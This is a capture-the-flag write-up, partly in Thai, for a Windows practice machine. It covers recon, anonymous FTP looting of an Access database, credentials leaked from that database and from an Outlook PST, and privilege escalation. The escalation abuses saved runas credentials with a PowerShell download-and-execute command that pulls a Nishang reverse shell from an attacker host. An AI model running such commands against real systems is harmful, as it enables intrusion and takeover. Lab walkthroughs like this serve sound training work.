

# Recon 

```bash
sudo ../Tools/scan.sh 10.10.10.98 
[*] Running rustscan...
[*] Running nmap on ports: 21,23,80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-09 09:44 +07
Nmap scan report for 10.10.10.98
Host is up (0.033s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet  Microsoft Windows XP telnetd
| telnet-ntlm-info: 
|   Target_Name: ACCESS
|   NetBIOS_Domain_Name: ACCESS
|   NetBIOS_Computer_Name: ACCESS
|   DNS_Domain_Name: ACCESS
|   DNS_Computer_Name: ACCESS
|_  Product_Version: 6.1.7600
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: -21m42s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . 
Nmap done: 1 IP address (1 host up) scanned in 11.92 seconds

```

## TCP 80 



### Directory Bruteforce 
```bash
feroxbuster -u http://10.10.10.98 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt 
                                                                                                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  
ier | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.98
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       29l       95w     1245c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        2l       10w      156c http://10.10.10.98/aspnet_client => http://10.10.10.98/aspnet_client/
200      GET      274l     1766w   162337c http://10.10.10.98/out.jpg
200      GET       14l       31w      391c http://10.10.10.98/
301      GET        2l       10w      167c http://10.10.10.98/aspnet_client/system_web => http://10.10.10.98/aspnet_client/system_web/
400      GET        6l       26w      324c http://10.10.10.98/error%1F_log
400      GET        6l       26w      324c http://10.10.10.98/aspnet_client/error%1F_log
400      GET        6l       26w      324c http://10.10.10.98/aspnet_client/system_web/error%1F_log
[####################] - 41s    79759/79759   0s      found:7       errors:0      
[####################] - 29s    26584/26584   919/s   http://10.10.10.98/ 
[####################] - 29s    26584/26584   928/s   http://10.10.10.98/aspnet_client/ 
[####################] - 25s    26584/26584   1062/s  http://10.10.10.98/aspnet_client/system_web/                   
```

## TCP 21 

```bash
ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls 
425 Cannot open data connection.
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
226 Transfer complete.
ftp> cd ./Backups
250 CWD command successful.

ftp> bin
200 Type set to I.
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |***************************************************************************************************************|  5520 KiB    2.47 MiB/s    00:00 ETA
226 Transfer complete.
5652480 bytes received in 00:02 (2.47 MiB/s)

```

# Backup.mdb 

```bash
file backup.mdb 
backup.mdb: Microsoft Access Database

sudo apt install mdbtools -y 

mdb-tables ./backup.mdb
acc_antiback acc_door acc_firstopen acc_firstopen_emp acc_holidays acc_interlock acc_levelset acc_levelset_door_group acc_linkageio acc_map acc_mapdoorpos acc_morecardempgroup acc_morecardgroup acc_timeseg acc_wiegandfmt ACGroup acholiday ACTimeZones action_log AlarmLog areaadmin att_attreport att_waitforprocessdata attcalclog attexception AuditedExc auth_group_permissions auth_message auth_permission auth_user auth_user_groups auth_user_user_permissions base_additiondata base_appoption base_basecode base_datatranslation base_operatortemplate base_personaloption base_strresource base_strtranslation base_systemoption CHECKEXACT CHECKINOUT dbbackuplog DEPARTMENTS deptadmin DeptUsedSchs devcmds devcmds_bak django_content_type django_session EmOpLog empitemdefine EXCNOTES FaceTemp iclock_dstime iclock_oplog iclock_testdata iclock_testdata_admin_area iclock_testdata_admin_dept LeaveClass LeaveClass1 Machines NUM_RUN NUM_RUN_DEIL operatecmds personnel_area personnel_cardtype personnel_empchange personnel_leavelog ReportItem SchClass SECURITYDETAILS ServerLog SHIFT TBKEY TBSMSALLOT TBSMSINFO TEMPLATE USER_OF_RUN USER_SPEDAY UserACMachines UserACPrivilege USERINFO userinfo_attarea UsersMachines UserUpdates worktable_groupmsg worktable_instantmsg worktable_msgtype worktable_usrmsg ZKAttendanceMonthStatistics acc_levelset_emp acc_morecardset ACUnlockComb AttParam auth_group AUTHDEVICE base_option dbapp_viewmodel FingerVein devlog HOLIDAYS personnel_issuecard SystemLog USER_TEMP_SCH UserUsedSClasses acc_monitor_log OfflinePermitGroups OfflinePermitUsers OfflinePermitDoors LossCard TmpPermitGroups TmpPermitUsers TmpPermitDoors ParamSet acc_reader acc_auxiliary STD_WiegandFmt CustomReport ReportField BioTemplate FaceTempEx FingerVeinEx TEMPLATEEx

mdb-export backup.mdb auth_user 
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
```

# Access Control.pst

```bash
7z x Access\ Control.zip 

7-Zip 24.09 (arm64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit arm_v:8-A locale=en_US.UTF-8 Threads:4 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 10870 bytes (11 KiB)

Extracting archive: Access Control.zip
--
Path = Access Control.zip
Type = zip
Physical Size = 10870

    
Enter password (will not be echoed):
Everything is Ok

Size:       271360
Compressed: 10870
                                             
```

ข้อมูลก่อนหน้าเราจะได้ข้อมูล Password มาด้วย ให้ทำการทดสอบแตกไฟล์และใช้รหัสผ่านเป็น 'access4u@security' ก็จะสามารถแตกไฟล์ได้


หากเราตรวจสอบข้อมูลของไฟล์ Access Control.pst จะพบว่าเป็นไฟล์อีเมลล์ของ outlook โดยเราสามารถใช้คำสั่ง readpst ได้ 

```bash
sudo apt install pst-utils -y


readpst Access\ Control.pst 
Opening PST file and indexes...
Processing Folder "Deleted Items"
        "Access Control" - 2 items done, 0 items skipped.

```

เมื่อเราใช้คำสั่ง read pst เมล์ต่างๆ จะอยู่ใน Format ที่สามารถอ่านได้ 


ซึ่งหลังจากที่เราอ่านจะทำให้เราเห็นข้อความที่น่าสนใจ 

```mail
Hi there,

 

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

 

Regards,

John
```

# Shell as security 
## TCP 23 Telnet 

เราสามารถทดสอบด้วย Telnet ซึ่งจะทำให้เราสามารถเข้าถึงเป้าหมายได้ 


# Shell as admin

```powershell
cd C:\Users\Public\Desktop\
type "ZKAccess3.5 Security System.lnk"
```


จากการวิเคราะห์พบว่าไฟล์ .lnk มีการเรียกใช้คำสั่ง runas พร้อมกับ flag /savedcred ซึ่งบ่งชี้ว่าอาจมีการเก็บข้อมูล credentials (บัญชีผู้ใช้และรหัสผ่าน) ของ Administrator ไว้ในระบบแล้ว และเพื่อยืนยันข้อสันนิษฐานหรือใช้ในกระบวนการตรวจสอบก่อนพบไฟล์ .lnk ก็สามารถใช้คำสั่ง:

```powershell
cmdkey /list
```


จากเหตุการณ์ดังกล่าวทำให้เราทราบได้ว่า user administrator ได้ถูกเก็บไว้บนเครื่องเป้าหมายแล้ว 

## Privesc 

เราจะใช้ **Nishang** ซึ่งเป็นชุด PowerShell script สำหรับงาน post-exploitation โดยจะเริ่มจากการ **clone** โค้ด Nishang จาก GitHub ถ้ายังไม่มีในเครื่อง

```bash
git clone https://github.com/samratashok/nishang.git
### Using Invoke-PowerShellTcp.ps1 
cp ./nishang/Shells/Invoke-PowerShellTcp.ps1 ~/www/shell.ps1
```


เราจะเพิ่ม Config สำหรับทำ reverse shell จากไฟล์ Invoke-PowerShellTcp.ps1  โดยเราเพิ่มบรรทัดสุดท้ายตามภาพ จากนั้นฝั่ง kali linux เราก็จะทำการรอรับ Reverse shell

```bash
# Attacker 
updog -p 80   
rlwrap nc -lvmp 443


## Victim 
C:\Users\security\AppData\Local\Temp>runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.9/shell.ps1')"
```


# Pwned 
```